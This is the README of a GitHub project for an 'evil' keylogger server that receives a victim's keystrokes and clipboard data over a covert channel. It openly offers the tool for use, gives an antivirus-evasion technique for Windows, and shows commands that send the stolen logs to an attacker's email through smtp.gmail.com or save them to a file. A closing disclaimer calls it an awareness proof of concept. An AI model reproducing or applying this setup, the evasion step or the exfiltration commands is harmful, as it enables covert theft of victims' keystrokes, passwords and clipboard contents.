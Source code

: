 ![Screenshot_20231005_033920](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/7fe2fe3c-0284-4b75-8f84-840f01aea259)

<div>
    <img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Target OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit, as it serves as a proof of concept and can be improved in many ways.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/90fdbc71-30a5-4fa4-8ff7-847214c3f9d3)


#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/25d7e790-5ea3-451f-8371-e34dc955d57e)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
